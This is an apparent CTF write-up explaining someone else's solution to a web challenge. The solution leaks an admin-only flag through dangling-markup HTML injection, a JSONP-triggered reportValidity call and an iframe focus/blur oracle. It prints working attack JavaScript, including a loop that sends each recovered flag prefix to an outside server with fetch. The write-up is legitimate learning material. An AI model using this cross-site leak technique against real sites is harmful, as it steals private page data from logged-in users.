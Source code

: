 This writeup is based on my understanding of [Terjanq solution](https://gist.github.com/terjanq/cd146e97fac07db1c15e6037af7644e0), I didn't solved the challenge in the competition neither after the competition.

Some **Terjanq** words

### Chall:
1. The flag was in the body of the page in form of `<strike>CTF-BR{flag}</strike>` visible only to admin.
2. There was a simple HTML Injection endpoint that happened before the flag.
3. The goal was to retrieve that flag by sending a URL to the page to admin.

### Rules:
1. CSP: `default-src 'none'; script-src 'self'; form-action 'none'; base-uri 'none'; sandbox allow-scripts;`
2. Blocked characters in HTML Injection: `/[:&%#]/`
3. Allowed characters in JSONP: `/^[a-z.]+$/`

___

### The constraints:

There are multiple constraints which make us unable to leak the flag from the admin.

* We can't run injectable javascript using the `name` parameter since CSP will block it.
* We can run some javascript which will be not blocked, using the JSONP callback. But this javascript code is very limited. So we can't do thing like `fetch('my-server.com/?leak=' + flag)`

Here is when `Solution part 0.` comes in. We'll redirect the admin to a page that we own, in that page, we'll have the **Terjanq** solution.

___

### Escenarion now has changed. The admin is on a page that we control.

I'll try to explain some technical stuff which are used in the solution.

#### reportValidity
Let assume we have something like this.
```html
<input id=x value='my-flag' patter='my-f[^b].*'>
```
The pattern is asking for a prefix `my-f` then any character which is not a `b`, finally, any character. So if we run:
```javascript
ok = document.getElementById('x').reportValidity()
```
The value of *ok* will be `true` since the pattern match.

Another thing to take in count is, if the pattern doesn't match, the element `x` will gain focus.

#### Dangling markup

[What is injection?](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

With this injection we'll capture the flag inside the value of an input tag.

https://scriptless.world/?name=%3Cinput+value=%27 If we inpect the source code of that page. We'll see that a big part of the HTML content is inside of the value attribute. Note that the flag part is inside it.
___


If we now check the `go` function
``` javascript
async function go(prefix){
    for(let c of alph){
        let r = await test(prefix, c);
        if(r) {
            prefix += c;
            fetch('https://extract.server/x?f='+prefix)
            go(prefix);
            break;
        }
    }
}
```

It will try different patterns for the flag. With each pattern, it will run the `test` function:
```javascript
async function test(prefix, letter){
    return new Promise(r=>{
        let x = document.createElement('iframe');
        document.body.appendChild(x);

        x.focus();
        let win = x.contentWindow;
        let doc = x.contentDocument;
        win.onblur = () => r(1);
        let i = doc.createElement('iframe');
        i.src = URL.replace('PREFIX', prefix).replace('LETTER', letter)
        doc.documentElement.appendChild(i);
        i.onload = () => {
            console.log(/load/);
            r(0);
            x.remove();
        }
    })
}
```
Let see what the `test` functions does:

1. It will create an iframe, lets call it `x`
2. It will give focus to this iframe.
3. It will add a function to the event `onblur` which will end the promise with the value of `1`.
4. It will create a new iframe, lets call it `i`, inside the iframe `x`.
5. It will load the iframe `i` with the `URL` variable.

**Lets stop a moment here**
The URL variable is used for multiple purposes

1. URL will load the scriptless.world page. This page will have the flag in the HTML code.
2. Using the JSONP, URL will make able to run `x.reportValidity()`. Note here that it'll be call with a string as a parameter, but this doesn't matter.
3. URL will inject a HTML tag. `<input id=x patter='a pattern here' value='`. Note that the tag isn't close and also `value` attribute has only one single quote. Here is when [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) comes in to the game.
4. Because of the dangling markup. The value of the input `x` will have a lot of trash, the flag and finally more trash. (That's why URL has a long pattern, it's to match the trash before the flag)

To summerize, URL will:
* Inject an input tag with a pattern and a value. The value contains the flag.
* Inject a script with the JSONP call, which will run reportValidity.

Getting back to the test function, after the step 5, there are to thing that can happen:

* If the current pattern doesn't match. (Note the way the pattern is made), `reportValidity` will return false and iframe `i` will gain focus, so iframe `x` lost focus, which will triger the `onblur` event returning a `1`.
* If the current pattern does match. It'll be because the current prefix of the flag isn't correct. So the Promise response will be `0`.


## Some resources that I used to understand the solution
* [JavaScript Promises In 10 Minutes](https://www.youtube.com/watch?v=DHvZLI7Db8E)
* [JavaScript Async Await](https://www.youtube.com/watch?v=V_Kr9OSfDeU)
* [reportValidity](https://googlechrome.github.io/samples/report-validity/)
* [Dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)
